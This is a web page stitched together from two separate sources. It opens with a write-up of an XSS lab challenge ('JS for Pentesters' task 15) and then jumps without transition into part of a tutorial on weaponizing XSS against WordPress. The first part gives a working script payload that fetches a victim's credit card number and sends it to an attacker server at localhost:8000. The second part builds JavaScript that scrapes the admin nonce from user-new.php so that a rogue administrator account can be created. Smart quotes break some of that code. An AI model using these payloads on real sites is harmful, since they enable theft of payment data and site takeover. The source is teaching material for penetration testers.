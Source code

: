 

##
#
https://blog.0daylabs.com/2014/11/01/xss-ex-filtrating-data-xmlhttprequest-js-pentesters-task-15-write/
##
#
https://www.trustedsec.com/blog/tricks-for-weaponizing-xss/
#
##
#
##

XSS - Ex-filtrating data with XMLHttpRequest(): JS for Pentesters task 15 write up
Nov 1, 2014 • jsp, javascript, xss, security-tube

writeup for task-15 of the JS for pentesters series by security-tube - Ex-filtrating data with XMLHttpRequest()
Till now we have seen 2 different challenges with XMLHttpRequest() with GET request. Now let us look into a challenge were we need to post data not by GET method but by POST method. Let us look into the challenge:

JS for Pentesters task 15

Our Objective of the challenge is to Find John’s Credit Card Number using an XSS vulnerability on this page and post the Credit Card Number to your Attacker Server. Here as we stated above, the key difference is that we should do a POST request to the server. Let us look into the correct payload:

```
    <script>
    var xhr = new XMLHttpRequest();    
    xhr.open('POST', 'http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore', true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.onload = function () {
    var request = new XMLHttpRequest();
    request.open('GET', 'http://localhost:8000/?creditcard='+xhr.responseText, true);
    request.send()
    };
    xhr.send('user=john');
    </script>
```

So what have we done above ? We have created a new XMLHttpRequest() object and then we opened the link by specifying the request type as POST. Then we used the setRequestHeader() so that the entire URL should be properly encoded or else it won’t work. After that, its all normal procedure like we did before. A small difference is that we are declaring one more XMLHttpRequest() object inside the onload since we need to post it our server also. You can do that without XMLHttpRequest too but I just prefer to use it. In the xhr.send(), inside the brackets, we gave the POST parameters and here, it is user=john.

Note:

1) If you didn’t understand the payload properly, I strongly recommend you read the basics of XMLHttpRequest() first and then try again.

2) While playing with XSS challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

3) You have to URL encode the payload before the injection via the url parameter or else this will fail to work

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..



Figure 19: Finding the Original Nonce Value
To complete the new administrator attack, we need some additional code to fetch the user-new.php page and parse out the nonce value before we construct and send our malicious POST request.

First, we need a helper function to help format the server responses. That function is:

function read_body(xhr)
 {
   var data;
   if (!xhr.responseType || xhr.responseType === “text”)
   {
     data = xhr.responseText;
   }
   else if (xhr.responseType === “document”)
   {
     data = xhr.responseXML;
   }
   else if (xhr.responseType === “json”)
   {
     data = xhr.responseJSON;
   }
   else
   {
     data = xhr.response;
   }
   return data;
 }
Next, we need a function to get the page with the nonce value. The URI is the same value that we used in our POST request.

function findNonce()
 {
   var uri = “/wp-admin/user-new.php”;
   xhr = new XMLHttpRequest();
   xhr.open(“GET”, uri, true);
   xhr.send(null);
 }
Note that this XHR request is using a GET request instead of the POST request in our previous function. This code will retrieve the user-new.php page for us. Now we need to do something with the response.

Up until now, we have not had to wait for our request to finish. We do have to worry about that now. We will add some code that will wait until our GET request has completed.

xhr.onreadystatechange = function()
 {
   if (xhr.readyState == XMLHttpRequest.DONE)
   {
     // do something
   }
 }
The inner bracket where the “// do something” comment is will not execute until our GET request has completed. This is where we need to put our response parsing code that will find our nonce value. We can add the following code in the inner bracket:

…
var response = read_body(xhr);
…

We are passing our XHR request to the read_body helper function that we added, and we are getting back the response as text and saving it in a response variable. This variable now holds the full HTML content of that page, including the add new user form and the nonce value!

There is a lot of content in that response and we want to narrow down to our nonce. Let’s look at the nonce again in the HTML.


Figure 20: Nonce Value in Server Response
We can search for this code in the response. A good string to search for might be ‘‘name=”_wpnonce_create-user” value=”’. That string should be static, and right after the ‘value=’ is the actual content we need to isolate. We can find this string in our response with the following code:

…
var noncePos = response.indexOf(‘name=”_wpnonce_create-user” value=”‘);
console.log(“Nonce string index is: “ + noncePos);
…

This will find the index of this string in the response. We can put this all together and print out this index.

```
function findNonce()
 {
   var uri = “/wp-admin/user-new.php”;
   xhr = new XMLHttpRequest();
   xhr.open(“GET”, uri, true);
   xhr.send(null);
   xhr.onreadystatechange = function()
   {
     if (xhr.readyState == XMLHttpRequest.DONE)
     {
       // do something
       var response = read_body(xhr);
       var noncePos = response.indexOf(‘name=”_wpnonce_create-user” value=”‘);
       console.log(“Nonce string index is: “ + noncePos);
     }
   }
 }
 
``` 
We copy this function and the helper read_body() function into the payload.js and call it.
